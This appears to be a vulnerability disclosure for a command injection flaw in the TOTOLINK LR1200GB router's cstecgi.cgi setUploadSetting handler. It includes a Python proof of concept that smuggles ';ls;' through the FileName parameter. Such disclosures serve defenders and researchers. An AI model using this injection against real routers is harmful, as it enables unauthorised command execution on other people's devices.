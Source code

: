# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUploadSetting` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `cp %s /tmp....` and be excuted by `system` function, which allows an attacker to excute any command.

![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "FileName":";ls;",
    "topicurl":"setUploadSetting",
    "token":"00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
